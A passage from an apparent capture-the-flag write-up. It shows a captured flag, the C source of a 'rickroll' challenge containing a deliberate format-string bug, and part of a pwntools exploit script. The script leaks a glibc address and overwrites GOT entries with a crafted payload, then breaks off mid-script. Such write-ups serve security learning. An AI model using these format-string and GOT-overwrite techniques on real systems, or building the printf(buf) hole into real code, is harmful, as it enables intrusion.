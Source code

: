 I then blasted it getting the flag:`lactf{i_guess_using_many_greek_characters_didn't_stop_you._well_played_i_must_say.congrats!}`

## rickroll  
This one we over-engineered the hell out of, to the point where it was just a bit extra.
```c
#include <stdio.h>

int main_called = 0;

int main(void) {
    if (main_called) {
        puts("nice try");
        return 1;
    }
    main_called = 1;
    setbuf(stdout, NULL);
    printf("Lyrics: ");
    char buf[256];
    fgets(buf, 256, stdin);
    printf("Never gonna give you up, never gonna let you down\nNever gonna run around and ");
    printf(buf);
    printf("Never gonna make you cry, never gonna say goodbye\nNever gonna tell a lie and hurt you\n");
    return 0;
}
```
*I was rickrolled by a ctf, so you, the reader, must experience the same*

**Exploit**  
```python  
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('rickroll_patched')  
glibc = ELF('libc.so.6', checksec=False)

  
def get_process():  
    if len(sys.argv) == 1:  
        return elf.process()

    host, port = sys.argv[1], sys.argv[2]  
    return remote(host, int(port))

  
def main():  
    p = get_process()

    payload = b'%82c%14$lln%191c%15$hhn%47c%16$hhnaaaabb%186c%17$hhn...%18$s....\x18@@\x00\x00\x00\x00\x00\x19@@\x00\x00\x00\x00\x00\x1a@@\x00\x00\x00\x00\x00' + p64(elf.sym.main_called) + p64(elf.got.fgets)

    p.sendlineafter(b'Lyrics: ', payload)  
    fgets_addr = u64(p.recvuntil(b'....')[:-4].split(b'...')[1].ljust(8, b'\0'))  
    glibc.address = fgets_addr - glibc.sym.fgets

    log.info(f'Leaked fgets() address: {hex(fgets_addr)}')  
    log.success(f'Glibc base address: {hex(glibc.address)}')

    system = glibc.sym.system

    to_write = system & 0xff  
```